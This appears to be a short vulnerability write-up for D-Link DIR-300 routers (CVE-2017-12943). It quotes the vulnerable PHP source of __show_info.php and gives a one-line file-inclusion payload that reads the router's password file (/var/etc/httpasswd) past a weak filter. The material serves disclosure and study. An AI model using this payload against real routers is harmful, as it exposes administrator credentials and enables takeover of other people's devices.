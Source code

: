 Ref:
https://www.52pojie.cn/thread-1572565-1-1.html#41264230_2%E3%80%81dir600
https://paper.seebug.org/429/#d-link-dir-300-dir-320-dir-600-dir-615


# D-Link DIR-300   CVE-2017-12943

show_info.php

Payload `__show_info.php?REQUIRE_FILE=/var/etc/httpasswd`

```php

<?

if($REQUIRE_FILE == "var/etc/httpasswd" || $REQUIRE_FILE == "var/etc/hnapasswd")
{
	echo "<title>404 Not Found</title>\n";
	echo "<h1>404 Not Found</h1>\n";
}
else
{
if($REQUIRE_FILE!="")
{
require($LOCALE_PATH."/".$REQUIRE_FILE);
}
else
{
echo $m_context;
echo $m_context2;//jana added
if($m_context_next!="")
{
	echo $m_context_next;
}
echo "
\n";

if($USE_BUTTON=="1")
	{echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
	}

}

?>
```


# CVE-2017-12943

__show_info.php

Payload `__show_info.php?REQUIRE_FILE=/var/etc/httpasswd`

`$REQUIRE_FILE` can be control, `require($LOCALE_PATH."/".$REQUIRE_FILE)`, `LOCATE_PATH` default was empty

```php=
<body onload="init();" <?=$G_BODY_ATTR?>>
<form name="frm" id="frm">
<?require("/www/model/__banner.php");?>
<table <?=$G_MAIN_TABLE_ATTR?>>
<tr valign=middle align=center>
    <td>

<!-- ________________________________ Main Content Start ______________________________ -->
    <table width=90%>
    <tr>
        <td id="box_header">
            <h1><?=$m_context_title?></h1>

            <center>
            <?
            if($REQUIRE_FILE!="")
            {
                require($LOCALE_PATH."/".$REQUIRE_FILE);
            }
            else
            {
                echo $m_context;
                echo $m_context2;//jana added
                if($m_context_next!="")
                {
                    echo $m_context_next;
                }
                echo "

\n";
                if($USE_BUTTON=="1")
                {echo "<input type=button name='bt' value='".$m_button_dsc."' onclick='click_bt();'>\n"; }
            }
            ?>
            </center>

        </td>
    </tr>
    </table>
<!-- ________________________________  Main Content End _______________________________ -->

    </td>
</tr>
</table>
<?require("/www/model/__tailer.php");?>
</form>
</body>
</html>
<?
for ("/sys/user")
{
    if (query("name")!="")
    {
        echo query("name").":".query("password")."\n";
    }
}
?>
```